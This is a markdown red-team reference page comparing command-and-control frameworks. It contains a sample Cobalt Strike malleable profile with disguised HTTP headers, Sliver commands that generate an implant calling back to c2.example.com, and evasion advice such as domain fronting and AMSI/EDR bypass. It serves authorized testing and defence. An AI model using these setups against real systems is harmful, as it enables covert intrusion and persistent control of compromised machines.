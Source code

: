 ```yaml
---
title: Command & Control Frameworks
description: Comparison of popular C2 frameworks used in red team operations
---
```


# Command & Control Frameworks

Command and Control (C2) frameworks are essential tools for red team operations, providing a means to maintain communication with compromised systems while evading detection.

## Framework Comparison

| Framework | Language | Key Features | Stealth Capabilities | Learning Curve |
|-----------|----------|--------------|----------------------|----------------|
| Cobalt Strike | Java | Malleable C2, Beacon | High | Steep |
| Metasploit | Ruby | Extensive exploit library | Moderate | Moderate |
| Sliver | Go | Cross-platform, modern | High | Moderate |
| Covenant | .NET | Web UI, Grunts | Moderate | Gentle |
| Mythic | Python | API-driven, modular | High | Moderate |

## Cobalt Strike

Cobalt Strike is a commercial penetration testing tool designed for adversary simulations.

### Key Features

- **Beacon**: Primary payload for covert communications
- **Malleable C2**: Customizable network indicators
- **Sleep Timers**: Control operation tempo
- **Lateral Movement**: Built-in tools for pivoting

### Basic Beacon Setup

```java
# Example malleable C2 profile
set sleeptime "30000";
set jitter "20";
set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36";

http-get {
    set uri "/updates";
    client {
        header "Accept" "text/html,application/xhtml+xml,application/xml";
        header "Referer" "https://www.google.com/";
        header "Accept-Encoding" "gzip, deflate";
    }
    server {
        header "Server" "Apache";
        header "X-Powered-By" "PHP/7.4.1";
        header "Content-Type" "text/html; charset=UTF-8";
    }
}
```

## Sliver

Sliver is a modern, cross-platform open-source C2 framework.

### Key Features

- **Multiplayer Mode**: Team-based operations
- **Multiple C2 Protocols**: DNS, HTTP(S), mTLS, WireGuard
- **Dynamic Code Generation**: Unique implants per target
- **Cross-Platform**: Windows, Mac, Linux clients and servers

### Basic Sliver Setup

```bash
# Generate an HTTPS implant
sliver > generate --http https://c2.example.com --save /tmp/implant

# Start a listener
sliver > http

# Once implant connects
sliver > use [session ID]
sliver (DESKTOP-TARGET) > info
```

## OPSEC Considerations

When using C2 frameworks, consider the following operational security measures:

1. **Infrastructure Setup**:
   - Use redirectors to separate team servers from end victims
   - Implement domain fronting where possible
   - Consider using legitimate cloud services as proxies

2. **Communication Security**:
   - Use encrypted channels (HTTPS, mTLS)
   - Implement jitter in callback timing
   - Minimize data volume transferred
   - Use legitimate-looking domains

3. **Payload Security**:
   - Use in-memory execution techniques
   - Implement anti-forensics capabilities
   - Consider AMSI/EDR bypass techniques

## Detection & Evasion

Modern security tools often look for C2 indicators:

- **Network Detection**: Unusual connection patterns, known C2 signatures
- **Host Detection**: Unusual process behavior, memory patterns
- **Evasion Techniques**: Sleep timers, legitimate domains, traffic blending

## Ethical Usage Reminder

These tools should only be used within the context of authorized engagements with proper legal permissions and documentation.